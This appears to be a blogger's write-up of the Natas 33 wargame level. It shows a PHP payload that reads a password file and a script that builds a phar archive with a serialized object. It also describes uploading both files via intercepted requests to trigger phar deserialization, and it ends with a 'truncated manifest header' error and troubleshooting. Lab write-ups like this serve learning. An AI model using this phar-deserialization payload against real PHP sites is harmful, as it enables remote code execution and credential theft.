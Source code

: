 The php script itself is super simple:
```
<?php
	echo file_get_contents('/etc/natas_webpass/natas34');
?>
```

And I'll grab the md5:
```
$ md5 my.php
MD5 (my.php) = d9dca0c068f8511f02ab559e1343ec30
```

Next, another php script to make a phar:
```
<?php
	$phar = new Phar('my.phar');
	$phar->startBuffering();
	$phar->addFromString('test.txt', 'text');
	$phar->setStub('<?php __HALT_COMPILER(); ?>');


	class Executor {
		private $filename = 'my.php'; 
        private $signature = 'd9dca0c068f8511f02ab559e1343ec30';
	}
	
	$obj = new Executor();
	$phar->setMetadata($obj);
	$phar->stopBuffering();
?>
```

Executing the above php script creates a file called 'my.phar'. 

Next, I upload the first php script. I intercept the POST request (using BurpSuite), and change the filename to 'my.php' instead of my session id.
Then, I upload the phar file the same way -- modifying the request so that the file name is 'my.phar'.
Ok, but here's the thing. I need to have the md5_file passed in the 'phar:\\' path of that file in order for it to be deserialized. So I guess I'll submit another upload request, but make the file name 'phar://my.phar' this time. The upload fails, but that shouldn't matter, because \__destruct is still called no matter what fails in \__construct. 

And then I get this error output:

```
<b>Warning</b>:  md5_file(phar://my.phar): failed to open stream: internal corruption of phar &quot;/natas33/upload/my.phar&quot; (truncated manifest header) in <b>/var/www/natas/natas33/index.php</b> on line <b>43</b><br />
Failur! MD5sum mismatch!<br>
```
Why is my manifest header truncated?! This is annoying. So I spend a good hour or two messing around to see if I can figure out what's wrong with my phar. The error message doesn't provide a lot of search results, and none that bring me any insight. I try regenerating it. Moving stuff around. Reading and re-reading the blog post, reading the (minimal) php documentation, and actually finding some other writeups of this challenge where people had used the same approach. I was encouraged to see I was on the right track (as I had no previous knowledge of Phar files, and zero php experience outside of tackling these Natas challenges, I could have easily been chasing a kooky idea). But then I'm discouraged, because the code in the other write ups was effectively the same as what I'd come up with.
